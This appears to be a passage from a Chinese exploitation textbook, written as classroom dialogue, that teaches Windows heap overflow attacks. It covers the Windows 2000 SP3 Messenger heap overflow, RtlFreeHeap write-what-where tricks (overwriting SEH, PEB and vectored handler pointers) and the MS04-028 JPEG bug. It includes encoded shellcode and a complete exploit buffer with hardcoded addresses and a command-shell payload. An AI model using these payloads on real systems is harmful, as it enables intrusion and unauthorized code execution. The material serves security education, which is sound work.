    "\x4d\xd5\xc6\xfe\xe4\x96\xe5\x96\xfe\xe2\x96\xf9\x96\xfe\xe4\x96"
    "\xf7\x96\xfe\xe5\x96\xe2\x96\xfe\xf8\x96\xff\x96\xfe\xfb\x96\xff"
    "\x96\xfe\xd7\x96\xf2\x96\x1f\xf0\x8a\xc6\xfe\xce\x96\x96\x96\x1f"
    "\x77\x1f\xd8\x8e\xfe\x96\x96\xca\x96\xc6\xc5\xc6\xc6\xc5\xc6\xc7"
    "\xc7\x1f\x77\xc6\xc2\xc7\xc5\xc6\x69\xc0\x86\x1d\xd8\x8e\xdf\xdf"
    "\xc7\x1f\x77\xfc\x97\xc7\xfc\x95\x69\xe0\x8a\xfc\x96\x69\xc0\x82"
    "\x69\xc0\x9a\xc0\xfc\xa6\xcf\xf2\x1d\x97\x1d\xd6\x9a\x1d\xe6\x8a"
    "\x3b\x1d\xd6\x9e\xc8\x54\x92\x96\xc5\xc3\xc0\xc1\x1d\xfa\xb2\x8e"
    "\x1d\xd3\xaa\x1d\xc2\x93\xee\x97\x7c\x1d\xdc\x8e\x1d\xcc\xb6\x97"
    "\x7d\x75\xa4\xdf\x1d\xa2\x1d\x97\x78\xa7\x69\x6a\xa7\x56\x3a\xae"
    "\x76\xe2\x91\x57\x59\x9b\x97\x51\x7d\x64\xad\xea\xb2\x82\xe3\x77"
    "\x1d\xcc\xb2\x97\x7d\xf0\x1d\x9a\xdd\x1d\xcc\x8a\x97\x7d\x1d\x92"
    "\x1d\x97\x7e\x7d\x94\xa7\x56\x1f\x7c\xc9\xc8\xcb\xcd\x54\x9e\x96";
```

“老师，这个 ShellCode 是针对哪个系统的呢？”台下有人问道。

“这个 ShellCode 是经过编码变换的，而且采用动态定位的方式，各个系统可以通用。”

“编码？通用？好神奇啊！这是怎么实现的呢？”大家问道。

“看来大家都很有兴趣，那我抽个时间给给你们讲讲 ShellCode 的编码及其高级编程吧！”

“好啊！”大家欢呼起来。

“到时我再讲具体的实现吧！现在直接使用就可以。”老师说道，“我们还是先完成对 Windows 2000 SP3 Message 堆溢出漏洞的攻击吧！”

# 4.3.3 跳转和构造

### 4.3.3 跳转和构造

“第三步就是实现跳转到 ShellCode 中。”老师说，“现在，大家类比刚才的例子想想，知道该怎么做了吧？”

“嗯，在消息段中，先覆盖 2263 个无用字节进行填充，这样就到了堆管理块；用 NOPNOPJmp 08 覆盖管理块，用来跳过后面的 what 和 where，然后进入最后的 ShellCode 中。”古风说。

玉波也抢着回答：“而我们把 what 覆盖成 call[esi+4C] 的地址，把 where 覆盖成默认异常处理地址，后面跟 ShellCode，就像图 4－37 一样。”


“这样，在 what→where 的操作时，就会把顶层异常处理地址覆盖成 call [esi+4c] 的地址；发生异常后，就会执行 call [esi＋0x4C] ，跳转到堆管理结构中；那儿我们正好放的是 JMP 08 ，这样跳进最后的 ShellCode 中了。”宇强也把流程说了一遍。

“非常好！”老师很满意大家的表现，“特别是在 Windows2000 SP3 下， call [esi+4C] 指令的地址是 0x77e2f91f，顶层异常处理地址是 0x77ec044c，这是我们在前面得到的。这样，数据构造就如图 4－38 所示。”


“好了！”老师说道，“我们就这样构造出了消息部分数据，再加上其他的数据头等结构，得到程序 message.c。我们把数据发给有漏洞的目标机，目标机就会跳过去执行我们的 ShellCode。”

“实际测试一下，我们先在‘工程→设置’里设置要攻击的主机，如图 4－39。”


“再编译、执行。目标机上就会出现图 4－40 的效果。”

 “哦！引发了错误！”同学们叫道。

“是的，那是 Services 系统服务异常后引起的。但我们可以看到，已经加上了一个名为‘X’的用户，完成了我们想要的功能！”

“是啊！是那换成其他功能的 ShellCode 也可以么？”

“当然可以，只要那个 ShellCode 符合堆漏洞的条件就行，大家下去可以自己测试。好了，我们休息一下！”

# 4.4 RtlFreeHeap 的失误

## 4.4 RtlFreeHeap 的失误

课间休息时大家议论纷纷。

“缓冲区溢出有如此多的方法，真奥妙啊！”

“有些地方无法用语言表达，只能自己去感受！”

“是的！”老师说道，“程序设计其实就是一门艺术；而缓冲区溢出编程，更是普通程序设计之上的突破与创新！”

“不过说到程序设计艺术啊！”老师和大家随便的聊开了，“强烈建议大家参与 ICPC/ACM（国际大学生程序设计竞赛）。该赛事极大的锻炼了学生的逻辑分析能力、策略制定和脑力开发！”

小知识：ICPC/ACM（国际大学生程序设计竞赛）

是由 ACM（Association?for?Computing?Machinery，美国计算机协会）组织的年度性竞赛，始于 1970 年，是全球大学生计算机程序能力竞赛活动中最有影响的一项赛事。竞赛方式是在指定时间和地点，由 3 个成员组成的小组应用一台计算机在 5 个小时内编程解决 6 至 9 个生活中的实际问题，现场提交源程序，自动评判是否通过测试数据，按照解决问题数目的多少和耗时排名。

老师接着说：“ICPC/ACM 分为各洲的预赛和美国总部总决赛。预赛的第一名或前两名队伍会获得去美国参加世界总决赛的资格。总决赛的地点前两年在夏威夷，现在在好莱坞。”

“哇！都是好想去的地方啊！”小倩说道。

“中国大陆 2001 年只有一个赛点——上海大学。后来增加了一个，2002 年是北京清华和西安交大，2003 年是北京清华和中山大学，今年 2004 年是北京大学和上海交大。”

“中国谁最强呢？清华么？”古风仰慕的问道。

“实力都很接近。但上海交大代表队于 2002 年获得世界总决赛冠军！是国内唯一的一次冠军！”老师满脸自豪。

“哇！世界冠军啊！”玉波的嘴都张大了。

“是啊，我们学校离一流强队还有一定的差距，未来就在你们身上啊！平时可供练习的网站有浙江大学（acm.zju.edu.cn）、四川大学（acm.scu.edu.cn），里面有大量题目和不定期的比赛交流。”

“大家有时间的话，多参与一些此类的活动吧！打好算法和数据结构的基础，不要虚度了大学四年的时光啊！”

宇强听了老师的话后，内心激荡不已……

# 4.4.1 有问题的程序

### 4.4.1 有问题的程序

“好了，我们继续上课吧！”老师说道。

“大家都清楚了堆溢出利用的实质吧！就是写任意 4 个 byte 的数据到任意的内存地址中，即前面强调的 what→where。除了刚才再分配时，我们能实现 what→where 外，我们也可覆盖已分配的管理结构，使它在释放时被我们利用！”

“哦？还可以这样啊？真是想不到，怎么利用啊？”同学们纷纷问道。

“看来大家兴趣都很高，不错，有兴趣才能钻研嘛！先看另一个有堆溢出问题的程序 heapvul2.cpp。如下：”

```
#include <string.h> 
#include <stdio.h> 
#include <windows.h> 
#include <malloc.h> 
int main (int argc, char *argv[]) 
{ 
    HANDLE hHeap; 
    char *buf1, *buf2; 
    //一个 38 字节的缓冲区 
    char mybuf[] = "11112222333344445555666677778888\x03\x00\x05\x00\x00\x09";
    //我们自己建立一个 HEAP 
    hHeap = HeapCreate(HEAP_GENERATE_EXCEPTIONS, 0x10000, 0xfffff); 
    //分配两块 32 字节内存 
    buf1 = (char *)HeapAlloc(hHeap, 0, 32); 
    buf2 = (char *)HeapAlloc(hHeap, 0, 32); 
    //把 38 字节的‘mybuf’拷贝到 32 字节的‘buf1’里
    memcpy(buf1, mybuf, 32+6); 
    //释放内存 
    HeapFree(hHeap, 0, buf1); 
    //这里会出错 
    HeapFree(hHeap, 0, buf2); 
    return 0; 
}
```

“和上面那个 heapvul2.cpp 程序不一样，”老师说道，“这里 buf1=(char *)HeapAlloc(hHeap, 0, 32); 和 buf2=(char* )HeapAlloc(hHeap, 0, 32); 一来就动态分配好了‘buf1’和‘buf2’的空间，如图 4－41。”


“然后 memcpy(buf1, mybuf, 32+6); 就是把‘mybuf’数组拷贝到‘buf1’里。拷贝了 38 字节，‘buf1’只有 32 字节。这样过长的字符串拷给‘buf1’，不仅覆盖了其 32 字节的空间，还覆盖了‘buf2‘的管理结构，如图 4－42。”



“最后执行 HeapFree(hHeap, 0, buf2) 释放‘buf2’时就会出错。”老师说道。“我们测试一下，编译、执行！弹出出错对话框： ‘0x77fccfe8’指令应用的‘0x34343434’内存，该内存不能为‘written’ ，如图 4－43。”



# 4.4.2 Windows 堆块的管理结构

### 4.4.2 Windows 堆块的管理结构

“哦！0x34343434 是我们构造的数据吧？”大家高兴的说，“那我们又可以控制把任意东西写进任意位置了啊？”

“是啊，但为什么要把‘Buf2’的管理结构填成\x03\x00\x05\x00\x00\x09 这么奇怪的数呢？”宇强又发现了问题。

“嗯，观察得很仔细。因为在 Windows 下堆管理有很多分支，所以堆的溢出也非常复杂。Windows 系统在作释放处理时，将根据堆块管理结构的数据来进入不同流程的处理。”

“哦！”

“所以，如果我们想要在 Buf2 释放时能控制 what 和 where 的值，并能执行 what→where 的操作，那就需要精心构造‘Buf2’的管理结构！”

“堆块的管理结构都是 8 个字节， 每个字节的含义如图 4－44。”



“要达到我们的目的，产生 what→where 的操作，就需要让‘Buf2’的管理结构满足下面的条件。”老师说。

“第一，要让‘索引号’段的值小于 0x40；第二，要让‘Flag’的第 0 位和第三位都置 1，如图 4－45。”



小知识：Flag 段每位的含义

0x01 - HEAP_ENTRY_BUSY

0x02 - HEAP_ENTRY_EXTRA_PRESENT

0x04 - HEAP_ENTRY_FILL_PATTERN

0x08 - HEAP_ENTRY_VIRTUAL_ALLOC

0x10 - HEAP_ENTRY_LAST_ENTRY

0x20 - HEAP_ENTRY_SETTABLE_FLAG1

0x40 - HEAP_ENTRY_SETTABLE_FLAG2

0x80 - HEAP_ENTRY_SETTABLE_FLAG3

# 4.4.3 what→where

### 4.4.3 what→where

“在这样的构造下，RtlFreeHeap 的时候会有一系列操作。”老师接着解释道。“首先，esi 是指向‘Buf2’的管理结构，后面会有 esi=esi-24 的操作，esi 就指向了‘Buf1’的存储空间数据。如图 4－46。”



“然后会有， mov eax,[esi]；mov esi, [esi+4] 的操作，现在 eax 和 esi 都是‘Buf1’中的数据了。如图 4－47。”



“最后，有一个 mov [esi]，eax 的操作（图 4－48），即我们想要的 what→where。这里的 where 是 esi，what 是 eax，而且 esi 和 eax 是‘Buf1’中的数据，都是我们可以控制的。”



“哦，那我们精心构造 B 的管理结构的值，并覆盖掉 what 和 where 位置上的值就可以了！”宇强现在明白了。

# 4.4.4 构造和利用

### 4.4.4 构造和利用

“对，我们构造一个示意图（图 4－49）。”



“那我们按照这个结构构造出利用的‘mybuf’就可以了。”大家七手八脚的构造出了 mybuf 数据。

```
char mybuf[] = "11112222"
    "\x1f\xf9\xe2\x77" //what call[esi+0x4c] in user32
    "\x4c\x04\xec\x77" //where TOP SEH in 2000 sp3 cn
    //"\xaa\xaa\xaa\xaa" //test
    "5555666677778888\x03\x00\x05\x00\x00\x09"
    "\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
    "\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
    "\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
    "\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
    "\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
    "\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
    "\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
    "\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
    "\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
    "\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
    "\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
    //下面是 Win2000 SP3 下的开 DOS 窗口的 ShellCode，参看第二章
    "\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
    "\x55\x8B\xEC\x33\xC0\x50\x50\x50\xC6\x45\xF4\x4D\xC6\x45\xF5\x53"
    "\xC6\x45\xF6\x56\xC6\x45\xF7\x43\xC6\x45\xF8\x52\xC6\x45\xF9\x54\xC6\x45\xFA\x2E\xC6"
    "\x45\xFB\x44\xC6\x45\xFC\x4C\xC6\x45\xFD\x4C\xBA"
    "\x64\x9f\xE6\x77" //sp3 loadlibrary 地址 0x77e69f64
    "\x52\x8D\x45\xF4\x50" 
    "\xFF\x55\xF0"
    "\x55\x8B\xEC\x83\xEC\x2C\xB8\x63\x6F\x6D\x6D\x89\x45\xF4\xB8\x61\x6E\x64\x2E" 
    "\x89\x45\xF8\xB8\x63\x6F\x6D\x22\x89\x45\xFC\x33\xD2\x88\x55\xFF\x8D\x45\xF4" 
    "\x50\xB8"
    "\xc3\xaf\x01\x78" //SP3 system 地址 0x7801afc3
    "\xFF\xD0";
```

“呵呵，大家回去测试一下，如果有什么问题，自己要试着解决！”老师说道，“而现在，我们继续探讨堆溢出利用的问题。”

# 4.5 堆溢出的其他利用方式

## 4.5 堆溢出的其他利用方式

“堆溢出利用的本质，就是使其产生 what→where 的操作，而让系统走向我们想要的流程。所以把 what 和 where 覆盖成什么值是利用能否成功的关键。”老师说道。“刚才我们使用的是默认异常处理地址，方法是把 where 覆盖成默认异常处理的地址，把 what 覆盖成 ShellCode 地址或能达到 ShellCode 的语句地址。”

“嗯，Windows2000 下的 what 就是 call [esi+0x4c] 指令的地址？”同学们说道。

“对，对于 Windows2000，还可以是 call [ebp+0x74] 指令的地址，而在 XP 系统下，则是 call[edi+0x78] 指令的地址。”

“这种覆盖方法，看起来还是不错嘛！”大家看起来都很满意。

“这种方法的优点是比较准确；但缺点是需要确切知道对方的系统和 SP 补丁号——默认异常的处理地址在各个版本和 SP 下都是不同的。”

“是啊！”这句话提醒了大家，“好像还提到过把 where 覆盖成 SEH 的方法吧！”

“是的，那是把 where 覆盖成当前异常处理程序地址，what 覆盖成能达到 ShellCode 的语句地址。”

“前面也说过，这种方法的优点与对方的系统和补丁无关，会比较准确通用；但缺点是需要对方线程地址是固定的。”

“哦，那有别的更好的覆盖方法吗？”大家对已有的利用方式还不满意。

“基于对 Windows 系统的深层认识，还有另外一些方法；但总的说来，这些也是类似的。”老师回答道。

# 4.5.1 覆盖 PEB

### 4.5.1 覆盖 PEB

小知识：PEB 和 TEB

PEB，指进程环境块。TEB，指线程环境块。

在编程实现时，可以通过 FS 寄存器找到 TEB、PEB 甚至默认堆的起始地址。具体说，就是 FS:[18]→TEB；TEB+30→PEB；PEB+18→默认的堆地址。在 ShellCode 高级编写中会有详细讲解。

“在 NT4/Windows2000/XP 下，PEB 的值都是固定的，都是 0x7FFDF000。而在 PEB 偏移 0x20 的地方（即 0x7FFDF020），有一个函数指针——RtlEnterCriticalSection()函数的指针。如图 4－50。”

 “哦，莫非我们可把 where 覆盖成它？”玉波问道。

“对！RtlEnterCriticalSection()函数很多地方都要用到，我们如果把 0x7FFDF020 覆盖成 ShellCode 的地址，那么系统调用 RtlEnterCriticalSection 函数时就会进入我们的 ShellCode。覆盖示意图如图 4－51。”



“哦！0x7FFDF020 这个地址对所有版本和系统都是通用的；那我们可得到版本无关的覆盖了？”大家说道。

“是的，这是该方法最大的优点；但也有缺点，就是需要目标程序在后面调用 RtlEnterCriticalSection（）函数才能进入我们的 ShellCode。”

“的确是这样啊！”

“而且这样的覆盖也有可能会引发异常。所以能否进入我们的 ShellCode，就需要具体程序具体分析，不能一概而论。”

# 4.5.2 覆盖 Vector 异常句柄

### 4.5.2 覆盖 Vector 异常句柄

“在 XP 下，有一种特殊的结构——Vector 异常句柄结构。它和传统的异常处理链存在堆栈中不同，Vector 是存在堆里的。”

小知识：Vector 异常句柄结构

```
　　struct _VECTORED_EXCEPTION_NODE
　　{
　　    DWORD m_pNextNode; 
　　    DWORD m_pPreviousNode; 
　　    PVOID m_pfnVectoredHandler;
　　}
```

“哦？莫非我们可通过覆盖它来实现跳转？”宇强听出了一点意思。

“不错！很有创新思维嘛！”老师笑道。

宇强不好意思的小声对小倩说：“其实老师都说出这个意思了！”

小倩回道：“但你悟性的确很好啊！”

“那里哦！听听老师怎么讲的吧！”宇强表面虽作推辞状，心里却高兴极了。

老师在台上说：“就是这样的，第一个 Vector 异常句柄位于地址 0x77FC3210 中，当作异常处理时，会有下面的处理：”

```
Mov esi,:[0x77FC3210]
　　call [esi+8]
```

“所以，我们把 where 覆盖成 0x77FC3210，而把 what 覆盖成 ShellCode 的地址－8。如图 4－52。”

　　

“假设 ShellCode 的地址是 0x0012FF50，我们就把 what 覆盖成 0x0012FF50－8＝0x0012FF48。”

“当执行 what→where 时，0x77FC3210 就会设为 0x0012FF48；这样在发生异常处理时，先 mov esi,:[0x77FC3210] ，esi 就会变为 0x0012FF48；再执行 call [esi+8] 时，就是执行 call 0x0012FF50 。”

“哦！这样就可进入位于 0x0012FF50 地址的 ShellCode 了。”大家说道。

“是的！”

“这种方法也有不足之处吗？”

“又让大家失望了，的确是的，”老师说道，“第一个不足是只针对 XP 系统有效，Win2000 下是没有 Vector 溢出处理的；第二个不足是：‘what’要么覆盖成 ShellCode 的地址，要么覆盖成是指向 ShellCode 的某个地址，都有可能造成不可信的覆盖。”

# 4.5.3 其他方法

### 4.5.3 其他方法

“天啊！就没有完美的办法么？”玉波绝望的说。

“我也知道这个世界，缺乏圆满～”宇强哼出林志炫的《散了吧》里的一句歌词。

“哈哈哈……”全班同学都笑了。

“学习了这么多，觉得 Windows 系统真有意思啊！”古风自喃道。

“操作系统是最底层、最复杂的用户软件，多亏了 Bill Gates 创造出 Windows 这种人性化的操作系统。”

老师说道，“大家越深入的学习，就会越赞叹程序设计这座美妙的大厦。这里提醒大家，我们不仅要学习系统本身，更关键的是学习微软设计系统的思想和实现系统的方法。”

“嗯，虽然没有源代码，但能感觉到他们处理问题的条理性和严谨性。”宇强认真的说。

“对！另外，大家还应体会到团队合作的必要性和管理的重要性，”老师说道，“你们想啊！这么大一个系统，浩如烟海的代码量，需要成千上万人的配合开发，如果管理协调有任何一点没到位，都不可能完成的。”

“而这方面目前在国内还很缺乏，如果大家有机会，能去微软亚洲研究院和微软工程院见识见识，近距离的向他们学习，对自己的提高是大有裨益的！”

“哦，微软研究院？想都不敢想！”大家喧哗了。

宇强听了老师的话后，顿觉得世界好大，自己好小……要学的东西很多，而一个人的时间又是这么宝贵，真的要抓紧再抓紧！努力再努力！

“老师，还有其他覆盖方法吗？”古风把宇强的思路拉了回来。

“如果对系统研究得越深，就会有越深入的见解。”老师回答说，“Matt Conover 和 Oded Horovitz 在 BlackHat04 会议上提到：我们可以构造伪造的堆块，使它释放时能算出 ShellCode 的地址！”

“啊？算出来？￥※……※太牛了吧！”

“这里的算出，是确切的计算出堆的地址！Matt 和 Oded 在深入研究了 Windows 堆管理后指出：我们申请小于 1024 大小的堆块，系统会释放到 Lookaside 结构中，而 Lookaside 的地址是知道的，我们也知道会释放到哪个结点中，所以我们就可知道堆块释放后的地址是多少！”

“给大家举个例子，假设堆的基址是 0x70000，Lookaside 在堆基址偏移 0x0688 的地方，即地址是 0x70688。我们申请分配 922 大小的堆块，释放时就会把它放在：取 8 对齐（922）/8=936/8=0x75 的 Lookaside 位置中，每个 Lookaside 位置占据 0x30 的大小，所以我们的堆的地址就是 0x70688+0x75*0x30=0x71c78 ！”

“哦！还可以这样啊！”

“我们的 ShellCode 就会在其中，这下就精确知道 ShellCode 的地址了！”

“这真是……不走寻常路，世界真奇妙……”大家对 Matt 和 Oded 的思维佩服得无话可说。

“在 Windows 下，堆的管理非常复杂，还有另外一些复杂的技术可以利用，但这里就不提了，以后有机会再说吧。”老师说道。

“其实，还有一个常用方法，就是覆盖函数或者函数的返回点，但就更需要结合具体的漏洞来分析了。”

“可以真实的学习一下吗？”

“当然可以啊！我们来看一个比较新的堆溢出漏洞——MS04-028 堆溢出漏洞。”

# 4.6 实例——JPEG 处理堆溢出漏洞的利用

## 4.6 实例——JPEG 处理堆溢出漏洞的利用

“MS04-028 漏洞是 Windows XP/Windows XP SP1 和其他一些（如.NET 等）应用软件在处理伪造 JPEG 图片时出现的问题。”老师指着图 4－53 说。



“哦，是堆溢出漏洞，并能被利用执行任意代码呢！”大家仔细看了公告后说道。

“是的，正好我们学习堆溢出，一起来分析利用它吧！”

大家又打起精神，聚精会神的听了起来。

# 4.6.1 漏洞的起因

### 4.6.1 漏洞的起因

“JPEG 是联合图像专家小组的英文缩写，该小组制定了图像压缩的国际标准算法——JPEG 算法，由该算法产生的图像就是 JPEG 图像。”老师说道。

小知识：JPEG 图像的主要格式

0xFFD8　 图像开始标志

0xFFE0 ~0xFFEF 应用 0~应用 F 标志，标志后面接相关数据，下同

0xFFFE 注释标志

0xFFDB 量化表标志

0xFFD0 帧开始标志

0xFFD4 哈夫曼表标志

0xFFDA 图象数据标志

0xFFD9 图像结束标志

“会出现问题的地方在注释部分，注释段以 0xFFFE 为开始标志；后面是注释段的长度值，再后面为注释的数据。”

“注释段的长度值是２个字节的无符号数，其值为注释的数据长度+2，这里的２是长度值本身占用的２个字节。一个合法的注释段如图 4－54。”



老师指着图解释道：“注释数据‘0x0102’为 2 个字节，所以长度值＝2+2=4。当系统要拷贝注释内容时，就分配长度值－２＝4－２＝2 的空间，然后把注释内容拷到那个空间去。

“嗯，看起来都很好啊？有什么问题吗？”古风问道。

“呵呵！问题就在这里，由于长度值本身占据的两个字节要计入长度中，所以长度值的最小值为２，表示没有注释数据在后面。而如果长度值被伪造为０或１，大家想想会有什么问题呢？”老师望着台下听讲的同学们。

“长度值会被减 2，那 0 或 1 减 2，就会得到-2 或-１，那程序会怎样呢？”大家觉得很奇怪。

“长度定义是无符号数，那－2 或－1 就会被认为是……”老师提醒大家。

“-2 或-1 就会被认为是是无符号数的 0xFFFE 或 0xFFFF！” 大家终于回过神来。

“对！这样系统就分配大量的空间用于存储并拷贝，由于拷贝的数据非常大，自然就会引发异常了。”

# 4.6.2 构造的特殊性

### 4.6.2 构造的特殊性

“哦，那是不是引发异常后，有 what→where 的操作呢？”宇强凭感觉说道。

“是的！异常后有 what→where 的操作，而且 what 是 FFFE 后的第 12 个字节，而 where 是 FFFE 后的第 16 个字节。如图 4－55。”

